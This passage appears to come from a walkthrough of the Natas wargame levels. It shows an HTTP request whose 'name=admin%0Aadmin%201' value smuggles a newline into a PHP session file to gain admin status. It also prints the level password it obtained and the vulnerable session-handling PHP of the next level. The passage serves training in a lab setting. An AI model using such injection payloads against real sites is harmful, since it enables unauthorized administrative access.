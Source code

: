 ```text
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=sess
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

name=admin%0Aadmin%201
```

After running this port request a session file for `PHPSESSID=sess` has been created with the extra admin 1 value. If we load this PHPSESSID we will pass the admin check.

```text
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>
```

## natas22

```php
<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```

```php
<?  

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
```